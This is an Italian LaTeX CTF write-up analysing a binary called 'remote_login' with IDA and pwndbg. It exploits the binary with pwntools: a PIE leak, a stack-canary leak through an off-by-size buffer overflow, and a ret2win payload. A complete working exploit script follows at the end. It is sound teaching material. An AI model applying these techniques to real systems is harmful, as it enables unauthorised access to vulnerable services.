\documentclass[main.tex]{subfiles}

\usepackage{pythonhighlight}

\begin{document}

\section{Analisi ed Exploitation}\label{sec:exploiting}


\subsection{Analisi Statica}

\hspace*{0.25in}Come ogni buona challenge che presenta un binario, il primo step, risiede sempre nell'analisi statica di esso, qui ci viene incontro IDA da HexRays che ci permette di aprire il compilato per poterlo analizzare, oltre ad offrirci un ottimo decompilato; ma solo dopo aver perlomeno verificato le protezioni presenti sul binario, per capire con che tipo di vulnerabilità potremmo avere a che fare.
\begin{figure}[h]
    \centering
    \fbox{
\includegraphics[width=0.5\textwidth]{images/checksec.jpg}}
    \captionsetup{aboveskip=0pt}
    \captionof{figure}{
        \centering
        Protezioni del binario
    }
\end{figure}

Avendo lanciato checksec sul binario, notiamo che abbiamo tutte le protezioni attive, che vorrà dire semplicemente più complessità nella vulnerabilità.
Ora siamo pronti per addentrarci nel codice.
\begin{figure}[h]
    \centering
    \fbox{
\includegraphics[width=0.9\textwidth]{images/main.jpg}}
    \captionsetup{aboveskip=0pt}
    \captionof{figure}{
        \centering
        Decompilato del main
    }
\end{figure}

Come si può notare dal main, abbiamo molteplici punti di interesse. La prima cosa che salta all'occhio è decisamente la prima print che ci printerà l'indirizzo del main come un utente; dopodichè abbiamo 2 read da 0x64 byte e infine una funzione check\_pin che prenderà in input il secondo buffer.
Tra le variabili, notiamo intanto "v6" che come possiamo notare sotto capiamo subito che si tratta del canary, il primo buffer che qui ci chiama "s" già ci fa storcere il naso, visto che ha dimensione 64, ma successivamente verranno letti 0x64 byte, un classico errore di misurazione che porta in questo caso ad un buffer overflow visto che 0x64 in realtà equivale a 100 byte!
per poi esser printato come username; infine, probabilmente dovuto ad un frettoloso copia incolla, notiamo una altra read d 0x64 sul secondo buffer che però è solamente un intero (4 byte). Ora possiamo addentrarci dentro "check\_pin" per vedere come viene poi usato il secondo buffer.
\begin{figure}[h]
    \centering
    \fbox{
\includegraphics[width=0.6\textwidth]{images/check_pin.jpg}}
    \captionsetup{aboveskip=0pt}
    \captionof{figure}{
        \centering
        Decompilato di check\_pin
    }
\end{figure}

Da questa funzione notiamo che se inseriamo il pin correttamente otterremo facilmente accesso al sistema, ora ci basta solo capire con cosa confronta il pin, ed il gioco è fatto!
\begin{figure}[h]
    \centering
    \fbox{
\includegraphics[width=0.6\textwidth]{images/get_pin.jpg}}
    \captionsetup{aboveskip=0pt}
    \captionof{figure}{
        \centering
        Decompilato di get\_pin
    }
\end{figure}

Purtroppo per noi sarà impossibile davvero ottenere il pin d'accesso dato che verrà confrontato con 4 byte letti da /dev/urandom che non solo essendo crittograficamente sicuro, non potremmo nemmeno leakkarlo in nessun modo, quindi ci toccherà sfruttare gli overflow per poter pwnare il sistema.

\hspace*{1in}
\subsection{Analisi Dinamica}

\hspace*{0.25in}Per L'analisi dinamica utilizzeremo \textit{GDB}, e più nello specifico \textit{pwndbg}, partiamo subito con il verificare il leak del indirizzo del main, che potrebbe aiutarci con il bypass di PIE (position independent executable) quindi mettendo un breakpoint al main estaendo l'indirizzo attuale e facendo runnare normalmente il prcesso dovremmo riuscire a verificarlo.
\begin{figure}[h]
    \centering
    \fbox{
\includegraphics[width=0.9\textwidth]{images/main_leak.jpg}}
    \captionsetup{aboveskip=0pt}
    \captionof{figure}{
        \centering
        PIE leak
    }
\end{figure}

Ottimo, grazie a questa informazione, successivamente riusciremo eventualmente a calcolarci il base address del binario.
Ora controlliamo la stack per avere un idea più precisa della sua struttura.
\begin{figure}[h]
    \centering
    \fbox{
\includegraphics[width=1.0\textwidth]{images/stack_main.jpg}}
    \captionsetup{aboveskip=0pt}
    \captionof{figure}{
        \centering
        Stack del binario
    }
\end{figure}

Dalla conformazione della stack notiamo subito il buffer che viene memsettato a 0 ad inizio codice, seguito da 8 byte (probabilmente usati come padding per l'allineamento) che da analisi statica non avevemo visto, seguito poi dal canary con il suo distintivo byte nullo alla fine, il base pointer e il return address.
Ora ricordandoci che la prima read leggeva 100 byte possiamo generare una stringa non ripetuta per capire come e dove riusciamo ad arrivare grazie all'overflow, (la possiamo generare con il comando "cyclic 100" di pwntools)
\newpage
\begin{figure}[h]
    \centering
    \makebox[\textwidth][c]{
\includegraphics[width=1.3\textwidth]{images/stack_main_corrupted.jpg}}
    \captionsetup{aboveskip=0pt}
    \captionof{figure}{
        \centering
        Stack del binario corrotta
    }
\end{figure}

Come possiamo notare dalla stack, riusciamo sia a sovrascirvere il canary che il base pointer, che il return address, questo ci permetterà successivamente di effettuare una ROP (return oriented programming) chain.

\hspace*{1in}
\subsection{Exploitation}

Ora iniza la parte dove sfrutteremo le vulnerabilità riscontrate, iniziamo con il creare uno script python ed importare pwntools, per poi setuppare una funzione che ci permetterà di aprire il processo del binario o una connessione sul sistema remoto.

\begin{python}
from pwn import *

u64 = util.packing.u64
p64 = util.packing.p64

exe = ELF('./remote_login')
context.binary = exe
context.terminal = ['tmux','splitw','-h','-F''#{{pane_pid}}','-P']

def conn():
    if args.REMOTE:
	return remote('127.0.0.1', 1337)
    if args.GDB:
	return gdb.debug(exe.path, '''b *main\ncontinue\n''')
    return process(exe.path)

def main():
    r = conn()
    r.interactive()

if __name__ == '__main__':
    main()
\end{python}

Ora possiamo interagire in maniera molto semplice con il binario; la prima cosa che vogliamo ora fare, è ottenere il leak del main per calcolarci il base address, quindi, dopo avviato la comunicazione con il processo/remote, riceviamo fino a quando ci viene stampato "user\_" per poi prendere la parte successiva come hex e convertirla ad intero, poi la sottraiamo al simbolo del main presente nel binario per ottenere il base address che ci logghiamo per completezza, ottenendo il seguente snippet.

\begin{python}
r.recvuntil(b'user_')
main_leak = int(r.recvline().strip().decode(), 16)
exe.address = main_leak - exe.sym['main']
success(f'base address: {hex(exe.address)}')
\end{python}

Ora, abbiamo 2 bof consecutivi, ma non abbiamo il canary che non ci permette di sovrascrivere il return address, quindi useremo il primo overflow per leakkarcelo, per ovviare al byte nullo del canary sfrutteremo lo '\\n'; sapendo che il buffer sul quale stiamo per scrivere è grande 64 byte e dopo troviamo gli 8 di padding, manderemo 72 byte in un sendline, quindi 73 compreso di accapo, dopodichè leggeremo, fino alla stampa del nostro username, per poi leggere i byte leakkati, o almeno solo i primi 7, per poi aggiungere il byte nullo precendentemente sovrascritto, lo spacchettiamo e infine ci logghiamo il risultato, per ottenere il seguente.

\begin{python}
r.recvuntil(b'username: ')
payload = cyclic(64 + 8)
r.sendline(payload)
r.recvuntil(b'Hello')
r.recvline()
canary = u64(b'\x00' + r.recv(7))
success(f'canary: {hex(canary)}')
\end{python}

Ora che abbiamo anche il canary possiamo usare la seconda read per costruitre una possibile rop chain, anche se, andando a ricontrollare il codice, ricordiamo che se inserissimo il pin corretto, ci andrebbe ad aprire una shell, quindi più che una rop chain qui si parla di ret2win, dove possiamo andarci anche a ricavare l'indirizzo/offset.
\newpage
\begin{figure}[h]
    \centering
    \fbox{
\includegraphics[width=1.0\textwidth]{images/check_pin_asm.jpg}}
    \captionsetup{aboveskip=0pt}
    \captionof{figure}{
        \centering
        Asm di check\_pin
    }
\end{figure}

Qui selezioniamo il nostro indirizzo d'arrivo, cioè 0x136C, ricordando la funzione di partenza a 0x134E, questi indirizzi sono però senza considerare PIE, quindi ci prenderemo l'offset dall'inizio funzione per poi sommarlo al simbolo cel binario con il base address.
Ora possiamo comporre il payload finale, partiamo dal pin che è compost da 4 byte, dove manderemo 4 'A', lo username, dove possiamo usare il payload precedente che conteneva pure il padding, il canary che ci siamo leakkati, il base pointer possiamo pure sovrascriverlo con delle 'A', tanto, non staremo a ritornare dalla shell, infine l'indirizzo di win calcolato.
\begin{python}
payload = flat(
    b'A' * 4, # pin
    payload, # username + padding
    canary, # canary
    b'A' * 8, # rbp
    exe.sym['check_pin'] + (0x136C - 0x134E), # ret/win address
)
r.recvline()
r.sendline(payload)
\end{python}

Ormai abbiamo vinto! ci basta eseguirlo in remoto (o in locale per provare), e prenderci il sistema avversario.
\begin{figure}[h]
    \centering
    \fbox{
\includegraphics[width=1.0\textwidth]{images/running_exploit.jpg}}
    \captionsetup{aboveskip=0pt}
    \captionof{figure}{
        \centering
        Exploit in azione
    }
\end{figure}

\newpage
\subsection{Final Exploit Code}
\begin{python}
from pwn import *
u64 = util.packing.u64
p64 = util.packing.p64

exe = ELF('./remote_login')
context.binary = exe

def conn():
    if args.REMOTE:
        return remote('127.0.0.1', 1337)
    return process(exe.path)

def main():
    r = conn()

    # PIE leak
    r.recvuntil(b'user_')
    main_leak = int(r.recvline().strip().decode(), 16)
    exe.address = main_leak - exe.sym['main']
    success(f'base address: {hex(exe.address)}')

    # Canary leak
    r.recvuntil(b'username: ')
    payload = cyclic(64 + 8)
    r.sendline(payload)
    r.recvuntil(b'Hello')
    r.recvline()
    canary = u64(b'\x00' + r.recv(7))
    success(f'canary: {hex(canary)}')

    # ret2win
    payload = flat(
        b'A' * 4, # pin
        payload, # username
        canary, # canary
        b'A' * 8, # rbp
        exe.sym['check_pin'] + (0x136C - 0x134E), # ret/win address
    )
    r.recvline()
    r.sendline(payload)
    r.interactive()

if __name__ == '__main__':
	main()
\end{python}


\end{document}